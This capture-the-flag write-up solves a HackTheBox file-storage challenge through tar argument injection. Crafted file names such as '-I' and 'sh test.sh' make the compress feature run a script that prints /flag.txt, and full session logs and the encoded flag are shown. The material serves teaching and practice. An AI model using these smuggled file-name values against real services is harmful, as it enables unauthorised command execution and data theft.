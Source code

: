 > Some group of people seem to have made a network service that lets you store files temporarily. But little did they know about the mistake they made coding their script... Try to get familiar with their service and discover the vulnerability behind it. Your goal is to leak the contents of /𝗳𝗹𝗮𝗴.𝘁𝘅𝘁.

1. We tried to connect to the service and check its utilities.
   - For option 1, we can decide filename and its content.
   - For option 2, it lists the file that we created.
   - For option 3, it deletes a file according to file id (0-9)
   - For option 4, it shows a file's content according to file id (0-9)
   - For option 5, it compresses all the files in tar and output base64 encoded tar. (perhaps `tar` and `base64` were used)

```shell
$ nc 165.22.115.189 32212
.-------------------------------------------------------------------------------------.
| ___  ____                  _____ _                                      __   _____  |
| |  \/  (_)                /  ___| |                                    /  | |  _  | |
| | .  . |_  ___ _ __ ___   \ `--.| |_ ___  _ __ __ _  __ _  ___  __   __`| | | |/' | |
| | |\/| | |/ __| '__/ _ \   `--. \ __/ _ \| '__/ _` |/ _` |/ _ \ \ \ / / | | |  /| | |
| | |  | | | (__| | | (_) | /\__/ / || (_) | | | (_| | (_| |  __/  \ V / _| |_\ |_/ / |
| \_|  |_/_|\___|_|  \___/  \____/ \__\___/|_|  \__,_|\__, |\___|   \_/  \___(_)___/  |
|             B y  H a c k T h e B o x  L a b s        __/ |                          |
|                                                     |___/                           |
`-----------------------.                                   .-------------------------'
                        |  Welcome to your online temporary |
                        |            Micro Storage          |
                        `-----------------------------------'

                                   \!/ WARNING \!/
   Your storage only lasts during the ongoing session, once the session killed, all
                  your files will be gone. Use this service responsibly.
                                 ---------o---------

1 => Upload a new file (10 file(s) remaining)             
2 => List your uploaded files (0 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
```

2. Since option `2`, `3` , and `4` didn't contain possible injection parameters, we decided to combine options `1` and `5` to execute command injection. However, there are some special characters not allowed as a filename. 
   - After a series of trial-and-error, allowed special characters are `-_+=.`

3. We used [GTFObin](https://gtfobins.github.io/gtfobins/tar/) and [HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions) to check whether there was something to complete command injection.

```
1 => Upload a new file (10 file(s) remaining)             
2 => List your uploaded files (0 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: xf
[*] Start typing your file content: (send 'EOF' when done)
1
EOF
[+] Your file "xf" has been saved. (2 bytes written)
1 => Upload a new file (9 file(s) remaining)             
2 => List your uploaded files (1 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: -I
[*] Start typing your file content: (send 'EOF' when done)
2
EOF
[+] Your file "-I" has been saved. (2 bytes written)
1 => Upload a new file (8 file(s) remaining)             
2 => List your uploaded files (2 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: pwd
[*] Start typing your file content: (send 'EOF' when done)
3
EOF
[+] Your file "pwd" has been saved. (2 bytes written)
1 => Upload a new file (7 file(s) remaining)             
2 => List your uploaded files (3 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 5
[+] Your base64 encoded archive:
L2hvbWUvc3RvcmFnZS9kZmJhMWRkNzU3MGE2OTVjYTY1OGM0ZTcxZTNjMmIxMgo=
```

4. We cannot use `/` to get `/flag.txt` from filename. Therefore, we decided to put `cat /flag.txt` inside a script file, `test.sh`, and execute `tar xf -I "sh test.sh"`.
   - First, we added execution permission to our `test.sh`
   - The file deletion would change the index of the files, and thus we needed to write our command in advance.

```shell
1 => Upload a new file (10 file(s) remaining)             
2 => List your uploaded files (0 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1 
[*] Enter your file name: xf 
[*] Start typing your file content: (send 'EOF' when done)
1EOF
[+] Your file "xf" has been saved. (1 bytes written)
1 => Upload a new file (9 file(s) remaining)             
2 => List your uploaded files (1 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: -I
[*] Start typing your file content: (send 'EOF' when done)
EOF
1 => Upload a new file (8 file(s) remaining)             
2 => List your uploaded files (2 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: chmod +x test.sh
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "chmod +x test.sh" has been saved. (0 bytes written)
1 => Upload a new file (7 file(s) remaining)             
2 => List your uploaded files (3 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: sh test.sh      
[*] Start typing your file content: (send 'EOF' when done)
EOF
[+] Your file "sh test.sh" has been saved. (0 bytes written)
1 => Upload a new file (6 file(s) remaining)             
2 => List your uploaded files (4 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 1
[*] Enter your file name: test.sh
[*] Start typing your file content: (send 'EOF' when done)
cat /flag.txt
EOF
[+] Your file "test.sh" has been saved. (14 bytes written)
1 => Upload a new file (5 file(s) remaining)             
2 => List your uploaded files (5 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 5
[+] Your base64 encoded archive:


1 => Upload a new file (5 file(s) remaining)             
2 => List your uploaded files (5 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 3
[*] Enter the file identifier: (0 - 9)
>>> 2
[*] Deleting "chmod +x test.sh"...
[+] File deletion completed.
1 => Upload a new file (6 file(s) remaining)             
2 => List your uploaded files (4 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 2
[*] Fetching your uploaded files...
[*] 0. xf
[*] 1. -I
[*] 2. sh test.sh
[*] 3. test.sh
1 => Upload a new file (6 file(s) remaining)             
2 => List your uploaded files (4 file(s) uploaded so far)
3 => Delete a file                                        
4 => Print file content                                   
5 => Compress and download all your files                 
0 => Quit (you will lose your files!)                     
>>> Choose an option: 5
[+] Your base64 encoded archive:
SFRCe0BidXMxTmdfZ1RmMF9iMU4kX2M0bl9iM19mVW5fczBtM3QxbWVTX19yMWd8LXx0Pz8hIV9fYzRmZGVjZjh9Cg==
```